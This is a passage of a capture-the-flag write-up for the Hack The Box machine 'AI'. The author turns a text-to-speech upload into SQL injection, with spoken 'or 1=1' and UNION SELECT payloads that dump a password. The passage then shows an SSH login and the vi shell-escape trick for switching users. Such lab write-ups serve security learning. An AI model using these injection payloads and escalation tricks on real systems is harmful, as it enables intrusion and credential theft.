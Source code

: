 ```
./tts.sh hello
<h3>Our understanding of your input is : hello<br />Query result : <h3>

./tts.sh quote
<h3>Our understanding of your input is : quote<br />Query result : <h3>
```

By using the word `it's`, the application generates a quote and I can see that we have a MySQL SQL injection here.

```
./tts.sh "its or one equals one Comment Database"
<h3>Our understanding of your input is : it's or 1 = 1 -- -<br />Query result : You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 's or 1 = 1 -- -'' at line 1<
```

By using `open single quote` in the audio file, it will generate a single quote and I can use a simple 1=1 condition to return all entries from the database. In this case, the `print("hi")` row is shown.

```
root@kali:~/htb/ai# ./tts.sh "open single quote ore one equals one Comment Database"
<h3>Our understanding of your input is : 'or 1 = 1 -- -<br />Query result : print("hi")<h3>
```

I guessed that the table I had to check out was users and I was able to retrieve the password with the following query: `' UNION SELECT password FROM users -- -`

```
./tts.sh "open single quote union select password from users Comment Database"
<h3>Our understanding of your input is : 'union select password from users -- -<br />Query result : H,Sq9t6}a<)?q93_<h3>
```

Password: `H,Sq9t6}a<)?q93_`

I don't have the username and I can't do a query like `' UNION SELECT username FROM users -- -` because the application will read it as `' UNION SELECT user name FROM users -- -` instead. However before the box was released it was called `Alexa` so I just guessed that the username was Alexa and I was able to SSH in.

```
root@kali:~/htb/ai# ssh alexa@10.10.10.163
alexa@10.10.10.163's password: 

alexa@AI:~$ cat user.txt
c43b62...
```

## Trying to exploit the UID bug

Alexa can run vi as any user except root. There is a well known trick I can use to spawn a shell from within vi with `:!/bin/bash` but since I can't sudo vi as root I can only get access to `mrr3boot`.
